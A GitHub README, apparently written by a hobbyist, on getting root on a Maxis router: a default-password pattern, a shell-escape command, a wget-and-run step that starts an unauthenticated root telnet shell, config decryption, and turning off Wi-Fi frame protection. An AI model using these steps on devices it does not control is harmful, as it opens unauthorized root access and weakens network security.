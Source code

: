 ## max2140_bin

# Enabling ssh/telnet/ftp server
The key to full access manifests itself in the form of !!bestHOME!!xxxx (Shhh, don't tell anyone it's last 4-digit of the serial number). You must disguise yourself as MaxARSysOpr.

Listen to me, hacker, your time has come, the clue to breaking free is in `Security->Access Control`. The ball is now in your court!

# Gaining root access for custom installations 
Prerequisites : 
- Working MaxARSysOpr password
- A modicum of knowledge 
- Enabled telnetd/ssh from the UI@192.168.1.254

Steps:

1. Log in to either telnet, shh or serial port.
2. Run `echo $(sh)`
3. Followed by `wget --no-check-certificate https://github.com/B83C/max2140_bin/blob/main/busybox?raw=true -O /tmp/busybox && chmod +x /tmp/busybox && /tmp/busybox telnetd -l /bin/sh -p 1234` 
6. You're basically done! Connect to the router with `telnet 192.168.1.254 1234` (if you are on *nix). 
7. Voila full root access to the router! Be warned that you have just added another vulnerability to the system (that won't persist across reboot, of course), and I am not responsible for any damages caused.

# Decrypting/Encrypting the configuration file
I was tired of using the openssl client, so I wrote a utility in Rust. Check it out (here)[decipher]
To use the tool, you can either run `./decipher <input_file> <output_file>`, or let it prompt you for the correspending paths by not specifying the files.
FYI: Configuration related operations are accessible under Management > Configuration

# Files

| Path           | Uses                                                                                  |
|----------------|---------------------------------------------------------------------------------------|
| busybox        | Pre-built busybox binary                                                              |
| busybox_config | Build config file, copy it into the root path of the busybox repo as .config to build |
| scripts/rrmnt  | Convenient helper tool to remount / of the router as rw/ro                            |
| decipher/*     | Helper tools written in Rust to help decipher the configuration file (currently closed source) |

# Hurdles
- No firmware available as of now, if you have a stock router unmodified, kindly let me know cuz I want a working back up for my router.
- Some software problems that came along with the stock firmware

# Known problems that can be fixed / worked around
- Most importantly, dhcpcd static ip, the web UI is known not to work properly, but by gaining root access, you can fix this yourself by editing /etc/udhcpd.conf (remember to remount the rootfs as rw)
- And lack of features, i.e. custom dyn ip server, VPN (it has ipsec), and some other feasible stuff... Btw I got v2ray to run on this thing but the only problem is that maxis is very ungenerous, they limit your upload speed to 50mbps as opposed to time where upload and download are the same! 
- *Devices disconnect immediately upon authenticating (especially old devices)* : need to change ieee80211w=1 to ieee80211w=0 in /tmp/wl1_hapd.conf and restarting the interface wl1. It can be fixed by doing ```nvram set wl0_mfp=0``` ```nvram set wl0.1_mfp=0``` ```nvram set wl1_mfp=0``` ```nvram set wl1.1_mfp=0``` followed by ```nvram commit```( This will turn off Management Frame Protection in favor of backward compatibility with older devices? Not sure, but it allows android 5/6 devices to connect without any issues)
  
# Legal?
Well, Idk, the goal here is to provide end-users with the rights to add their custom binaries to the stock router, extending its functionalities ( and also to reduce e-waste, since we do not have to get a new router for what we demand ). The benefits are endless, that said, I am not responsible for any damages done to your router, and you are supposed to have at least some knowledge about embedded linux / linux. Happy modding! 
